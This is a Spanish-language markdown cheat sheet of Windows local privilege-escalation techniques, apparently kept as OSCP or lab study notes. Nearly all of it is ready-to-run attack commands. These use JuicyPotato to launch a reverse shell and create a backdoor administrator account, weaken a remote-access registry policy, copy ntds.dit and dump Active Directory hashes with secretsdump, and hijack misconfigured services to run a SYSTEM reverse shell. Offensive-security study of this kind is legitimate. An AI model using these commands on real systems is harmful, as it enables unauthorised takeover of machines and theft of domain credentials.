 ## Windows Privilege Escalation

Técnicas utilizadas para escalar privilegios en sistemas basados en Windows.

### Recursos

[Hacktricks - Windows Privesc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Payload All The Things - Windows Privesc Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Sushant Guide OSCP](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

[Another good guide](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows)


### Técnicas comúnes para escalar privilegios 


- [Abusing Tokens](#whoami-priv)
  - [SeImpersonatePrivilege](#SeImpersonatePrivilege)
  - [SeBackupPrivilege & SeRestorePrivilege](#SeBackupPrivilege-And-SeRestorePrivilege)
- [Privileged Groups](#whoami-groups)
- [Servicios Vulnerables](#Servicios-Vulnerables)
  - [Insecure Permissions](#Insecure-Permissions)
  - [Unquoted Service Path](#Unquoted-Service-Path)
  - [Weak Registry Permissions](#Weak-Registry-Permissions)
  - [Insecure Service Executables](#Insecure-Service-Executables)

## whoami priv

[Hacktricks Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

**Lista de Tokens de Acceso interesantes**

|Privilege|Privilege|
|--|--|
|**SeImpersonatePrivilege**|**SeAssignPrimaryPrivilege**|
|**SeTcbPrivilege**|**SeBackupPrivilege**|
|**SeRestorePrivilege**|**SeCreateTokenPrivilege**|
|**SeLoadDriverPrivilege**|**SeTakeOwnershipPrivilege**|
|**SeDebugPrivilege**||

### SeImpersonatePrivilege

#### Mediante una Reverse Shell

**Tool**: JuicyPotato.exe 
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c c:\windows\temp\rev.exe" -c <clsid> (optional)
```
#### Creando nuestro propio usuario
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net user chan chan123 /ADD"
```
**Agregándo nuestro usuario al grupo Local Administrators**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c net localgroup Administrators chan /add" 
```
**Cambiando el registro LocalAccountTokenFilterPolicy para poder tener acceso remoto**
```cmd
.\jp.exe -t * -l 1333 -p "c:\windows\system32\cmd.exe" -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
```
 
### SeBackupPrivilege And SeRestorePrivilege

**Crear una lista de instrucciones que serán ejecutadas con Diskshadow (Herramienta de gestión de discos)**

```bash
SET CONTEXT PERSISTENT NOWRITERS#
add volume c: alias chan#
create#
expose %chan% z:#
```
**Lo subimos a nuestro target y ejecutamos**
```cmd
diskshadow /s fichero_instrucciones.txt
```

**Luego subimos e importamos dos Dlls que nos servirán para copiar archivos entre discos**

[Dlls utilizados](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

**Copiamos el ntds.dit (Base de datos que almacena hashes del AD)**
```powershell
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\temp\ntds.dit
```
**Guardamos la llave system del registro de windows**
```powershell
reg save HKLM/SYSTEM c:\temp\system
```
**Dumpeamos los hashes con impacket-secretsdump y voila**
```bash
impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL
```

## whoami groups

[Guía detallada](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

### Dns admins

***HTB Machine*** : **Resolute**


## Servicios Vulnerables

**Obtener lista de servicios**

```cmd
net start
wmic service list brief
sc query
Get-Service
```
**Obtener permisos del servicio**

```cmd
sc qc <service_name>
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

**Ver si Authenticated Users pueden modificar el servicio**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

### Insecure Permissions

**Podemos usar accesschk.exe para verificar los permisos del usuario actual sobre un servicio en específico**
```cmd
.\accesschk.exe /accepteula -uwcqv <user> daclsvc
```
**En caso de tener el permiso `SERVICE_CHANGE_CONFIG` podemos aprovecharnos y modificar la propiedad `BINARY_PATH_NAME`**

Es necesario consultar si el servicio corre como SYSTEM mirando la propiedad `SERVICE_START_NAME`
```cmd
sc qc daclsvc
```
Modificamos la configuración del servicio y establecemos el BINARY_PATH_NAME (binpath) al de una reverse shell o un binario que queramos ejecutar

```cmd
sc config daclsvc binpath= "C:\tmp\reverse.exe"
```
Ponemos un socket de escucha e iniciamos el servicio

```cmd
net start daclsvc
```

### Unquoted Service Path 

[Explicación](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is)


**Primero debemos verificar que el servicio está corriendo como SYSTEM observando la propiedad `SERVICE_START_NAME` y también checkear si el nombre tiene espacios en el path mirando la propiedad `BINARY_PATH_NAME` **

```cmd
sc qc unquotedsvc
```

**Luego verificamos los permisos de la carpeta donde se ubica el binario real**
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
icacls "C:\Program Files\A Subfolder"
```
**Ahora copiamos la reverse shell en el folder final donde se situaba el binario**

```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Iniciamos el servicio**
```cmd
net start unquotedsvc
```

### Weak Registry Permissions

Consultamos el servicio `regsvc` y verificamos si está corriendo como SYSTEM (`SERVICE_START_NAME`).
```cmd
sc qc regsvc
```
Verificamos si el servicio es writable por algun grupo al que pertenezcamos, si sale `NT_AUTHORITY\Interactive` quiere decir que es modificable por cualquier usuario logueado.

```cmd
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescribimos la llave del registro ImagePath para que apunte al ejecutable reverse.exe que hemos creado

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Iniciamos un listener en Parrot y luego iniciamos el servicio para generar una shell reversa que se ejecute con privilegios de SYSTEM

```cmd
net start regsvc
```

### Insecure Service Executables

Primero debemos consultar el servicio  y verificar que se ejecuta con privilegios de SYSTEM (SERVICE_START_NAME).
```cmd
sc qc filepermsvc
```

Validamos si tenemos permisos para sobreescribir el binario del servicio `BINARY_PATH_NAME` 
```cmd
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Sobreescribimos el binario con una rev shell  e iniciamos el servicio
```cmd
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```






